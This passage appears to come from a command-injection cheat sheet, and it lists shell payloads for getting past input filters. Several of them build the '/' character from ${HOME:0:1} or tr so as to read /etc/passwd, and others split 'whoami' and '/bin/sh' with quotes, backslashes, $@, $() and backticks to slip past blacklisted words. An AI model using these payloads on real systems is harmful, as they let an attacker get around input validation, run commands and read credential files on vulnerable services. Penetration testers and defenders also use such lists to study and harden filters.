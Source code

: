 ```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
```

#### Bypass with double quote

```powershell
w"h"o"am"i
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

```powershell
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

### Bypass with $()
```powershell
who$()ami
who$(echo am)i
who`echo am`i
```
